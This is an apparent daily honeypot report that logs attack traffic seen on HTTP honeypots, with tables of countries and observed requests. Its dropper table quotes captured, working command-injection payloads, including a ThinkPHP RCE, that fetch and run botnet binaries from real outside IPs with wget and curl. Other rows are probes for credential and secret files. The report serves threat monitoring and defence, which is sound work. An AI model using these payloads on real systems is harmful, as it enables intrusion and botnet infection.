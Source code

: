```yaml
---
title: "Report: 2025-03-28 "
date: 2025-03-28
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-28
Interaction report on http service of various honeypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
Simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| AU               |                    |
| US               | Dubai              |
| CN               | Georgia            |
| CN               | Georgia            |
| US               |                    |
| US               |                    |

## botnet_dropper_behaviour
List of requests suspected of having stage 1 dropper behavior (programs designed to extract other files from their own code).
| remote_addr     | request                                                                                                                                                                                                                                                                                                       |
|:----------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 31.170.22.205   | GET /cgi-bin/live_api.cgi?page=satellite_list&id=&ip=$(cd+/var/tmp;wget+http://31.170.22.205/dl18;curl+-O+http://31.170.22.205/dl18;sh+dl18) HTTP/1.1                                                                                                                                                         |
| 87.121.84.30    | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20-rf%20parm7%3B%20wget%20http%3A%2F%2F193.32.162.27%2Fbins%2Fparm7%3B%20chmod%20777%20parm7%3B%20.%2Fparm7%20sex HTTP/1.1                                                                                                  |
| 141.98.11.27    | GET /shell?killall+-9+arm7;killall+-9+arm4;killall+-9+arm;killall+-9+/bin/sh;killall+-9+/bin/sh;killall+-9+/z/bin;killall+-9+/bin/bash;cd+/tmp;rm+arm4+efefa7;wget+http:/\x5C/176.65.134.201/efefa7;chmod+777+efefa7;./efefa7+jaws;wget+http:/\x5C/176.65.134.201/drea4;chmod+777+drea4;./drea4+jaws HTTP/1.1 |
| 185.191.127.222 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F45.87.43.37%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                      |
| 141.98.11.210   | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20-rf%20parm7%3B%20wget%20http%3A%2F%2F193.32.162.27%2Fbins%2Fparm7%3B%20chmod%20777%20parm7%3B%20.%2Fparm7%20sex HTTP/1.1                                                                                                  |
| 27.128.156.189  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                                                                                 |
| 185.233.117.25  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://152.42.234.215/bns/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1                                                                       |
| 78.183.216.35   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'rm -rf bejv86; wget http://176.65.134.201/bejv86 -O /tmp/.Aqua; chmod 777 /tmp/.Aqua; /tmp/.Aqua thinkphp.selfrep' HTTP/1.1                                                                |
| 220.170.80.79   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                                                                                 |
| 123.157.136.106 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                                                                                 |
| 45.40.228.160   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1                                                                     |
| 200.81.185.179  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://157.230.218.54/bins/nine.x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1                                                                 |

## request

List of requests of the day that have never been detected, other requests that have already been detected and archived in the [request database.](https://blog.shoggoth.industries/database/request_database/).

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
|----:|----------------------:|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 245 |                     2 | CNXN\x00\x00\x00\x01\x00\x10\x00\x00\x07\x00\x00\x002\x02\x00\x00\xBC\xB1\xA7\xB1host::\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 295 |                     1 | GET /Odin/http/call1743127399 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 296 |                     1 | GET /OdinHttpCall1743127399 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 297 |                     1 | GET /odinhttpcall1743127399 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 306 |                     1 | GET /Odin/http/call1743128020 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 307 |                     1 | GET /OdinHttpCall1743128020 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 308 |                     1 | GET /odinhttpcall1743128020 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 312 |                     1 | \x00\x0E8\xBE\xA3\x8A\xD4\xCB(\x0C\xB4\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 313 |                     1 | \x00\x0E\x08\xBE\xA3\x8A\xD4\xCB(\x0C\xB4\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 391 |                     1 | GET /socket.io/1/?t=1743146321861 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 394 |                     1 | GET /socket.io/1/?t=1743146338760 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 395 |                     1 | GET /ban.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 437 |                     1 | \xA4\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xA4\x00\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xA4\x00\x00\x00\x00\x00\x00\x00\x08\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xA4\x00\x00\x00\x00\x00\x00\x00\x0B\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xA4\x00\x00\x00\x00\x00\x00\x00\x13\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xA4\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xA4\x00\x00\x00\x00\x00\x00\x00\x1A\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xA4\x00\x00\x00\x00\x00\x00\x00\x1B\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xA4\x00\x00\x00\x00\x00\x00\x00\x1D\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xA4\x00\x00\x00\x00\x00\x00\x00\x1E\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xA4\x00\x00\x00\x00\x00\x00\x00\x1F\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xA4\x00\x00\x00\x00\x00\x00\x00!\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xA4\x00\x00\x00\x00\x00\x00\x00'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xA1\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00 |
| 443 |                     1 | GET /Media/Images/1FCA38A3.JPG HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 449 |                     1 | GET /JcWX HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| 453 |                     1 | GET /nmaplowercheck1743184646 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 461 |                     1 | GET /NmapUpperCheck1743184646 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 503 |                     1 | GET /Nmap/folder/check1743184646 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 531 |                     1 | GET /odinhttpcall1743146883 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 532 |                     1 | GET /OdinHttpCall1743146883 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 533 |                     1 | GET /Odin/http/call1743146883 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 556 |                     1 | GET /phpinfo/php-details.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 558 |                     1 | GET /phpinformation HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 560 |                     1 | GET /secret HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 561 |                     1 | GET /secret.txt HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 562 |                     1 | GET /secret_keys HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 564 |                     1 | GET /secrets.hjson HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 566 |                     1 | GET /secrets.kdbx HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 567 |                     1 | GET /secrets.pgp HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 568 |                     1 | GET /secrets.xml HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 569 |                     1 | GET /secrets.yaml HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 570 |                     1 | GET /server/phpinfo.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 572 |                     1 | GET /secrets.cson HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 581 |                     1 | GET /php/phpinfo.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 583 |                     1 | GET /credentials.cfg HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 584 |                     1 | GET /credentials.hjson HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 586 |                     1 | GET /credentials.xml HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 588 |                     1 | GET /info/phpinfo HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 589 |                     1 | GET /info/phpinfo.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| 590 |                     1 | GET /php-info HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 591 |                     1 | \x00\x0E8\xF1\xF8\xF3S\xA1\x17K\x9E\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |

## country_iso_code

List of country names and number of requests received by IPs located in these countries.
|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   913 | NL                 |
|  1 |                   324 | US                 |
|  2 |                   203 | AU                 |
|  3 |                   190 | CN                 |
|  4 |                   151 | GB                 |
|  5 |                   127 | HK                 |
|  6 |                   125 | BG                 |
|  7 |                   122 | DE                 |
|  8 |                    70 | LT                 |
|  9 |                    67 | RU                 |
| 10 |                    60 | PL                 |
| 11 |                    47 | CH                 |
| 12 |                    46 | FI                 |
| 13 |                    37 | FR                 |
| 14 |                    37 | SC                 |
| 15 |                    36 | SG                 |
| 16 |                    20 | NG                 |
| 17 |                    16 | JP                 |
| 18 |                    16 | CA                 |
| 19 |                    15 | PT                 |
| 20 |                    14 | ID                 |
| 21 |                    14 | TR                 |
| 22 |                     8 | VN                 |
| 23 |                     7 | BE                 |
| 24 |                     7 | UA                 |
| 25 |                     7 | NO                 |
| 26 |                     6 | KR                 |
| 27 |                     6 | IT                 |
| 28 |                     6 | IN                 |
| 29 |                     5 | GH                 |
| 30 |                     5 | BR                 |
| 31 |                     5 | TW                 |
| 32 |                     4 | IR                 |
| 33 |                     3 | IE                 |
| 34 |                     3 | MC                 |
| 35 |                     3 | LV                 |
| 36 |                     2 | AO                 |
| 37 |                     2 | AE                 |
| 38 |                     2 | AZ                 |
| 39 |                     1 | GR                 |
| 40 |                     1 | BD                 |
| 41 |                     1 | CY                 |
| 42 |                     1 | AR                 |
